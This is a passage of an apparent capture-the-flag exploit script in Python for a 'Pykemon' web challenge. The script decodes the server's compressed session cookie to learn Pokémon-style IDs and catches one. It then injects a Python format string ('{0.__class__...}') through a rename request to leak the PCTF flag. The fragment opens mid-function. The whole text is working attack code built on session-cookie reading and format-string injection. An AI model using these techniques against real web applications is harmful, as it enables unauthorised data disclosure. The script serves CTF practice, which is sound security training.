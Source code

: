 ```python3
        return None
    cookie = cookie.value
    return json.loads(zlib.decompress(base64.urlsafe_b64decode(cookie.split(".")[1] + "===")))
    
def get_pykemon():
    data = decode_session()
    if data == None:
        return None
    return data["room"]["pykemon"]

def get_pykemon_pid(pykemon):
    return base64.urlsafe_b64decode(pykemon["pid"][" b"]).decode("utf-8")

def try_catch():
    p = get_pykemon()
    if p == None:
        print("[FAIL] couldn't get pykemon")
    i = 0
    for mon in p:
        i += 1
        print("[INFO] attempt #{}".format(i))
        pid = get_pykemon_pid(mon)
        print("[INFO] catching {}".format(pid))
        r = catch(pid)
        print("[INFO] answer was {}".format(r))
        if "has been caught" in r:
            return pid
    return None

def rename_flag(pid):
    flag_fmtstr = "{0.__class__.pykemon[10][4]}"
    r = rename(pid, flag_fmtstr)
    match = re.search("PCTF{[^}]*}", r)
    if match == None:
        print("[INFO] flag match failed: {}".format(r))
        return None
    else:
        return match.group()

def run():
    r = get_room()
    if r.status_code != 200:
        print("[FAIL] couldn't get room")
        return
    pid = try_catch()
    if pid == None:
        print("[FAIL] couldn't catch pykemon")
        return
    flag = rename_flag(pid)
    if flag == None:
        print("[FAIL] couldn't extract flag")
        return
    print("[ OK ] flag is {}".format(flag))

run()
```

